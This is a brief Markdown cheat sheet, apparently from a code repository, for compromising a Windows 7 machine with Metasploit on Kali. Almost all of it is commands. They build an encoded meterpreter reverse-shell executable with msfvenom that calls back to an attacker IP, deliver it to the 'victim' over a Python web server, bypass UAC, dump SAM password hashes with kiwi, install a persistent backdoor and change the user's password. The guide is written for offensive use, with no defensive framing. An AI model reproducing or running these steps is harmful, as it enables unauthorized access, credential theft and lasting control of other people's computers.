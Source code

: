 # Metasploit Basics using Kali #
OS Windows 7
- - - - 

#### 1. Create the .exe with Venom ####

    msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.6 lport=4444 -e x86/shikata_ga_nai -f exe > /root/Desktop/socks.exe
    msfvenom -p windows/meterpreter/reverse_tcp lhost={Your IP} lport={Port number} -e x86/shikata_ga_nai -f exe > {File's path}

#### 2. On metasploit, select the payload ####

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
Configure the settings <code>show options</code> and <code>exploit</code>.

#### 3. It's necesary to execute the file on the victim's computer ####
Use <code>python -m SimpleHTTPServer 80</code> to have an easy acces to your file wihtout the need of download it.
Run your file through any browser on victim's computer using your IP and the connection should be established.

Then do anything you want with the computer's victim, remember alway use:
>   <code>show options</code> to configure the settings.  

>   <code>background</code> to set the current session on background.

>   <code>sessions</code> list all the active sessions.

>   <code>exploit</code> or <code>run</code> execute the exploit.

#### Get system credentials #### 
    use exploit/windows/local/bypassuac
#### Use Kiwi to get all the hashes ####
    load kiwi
    lsa_dump_sam
#### Make a permantent connection with the victim ####
    run persistence -U -i 5 -p 4444 -r 192.168.0.3
    run persistence -U -i {Intervale time} -p {port} -r {lhost IP}
#### Change user password ####
    use windows/manage/change_password
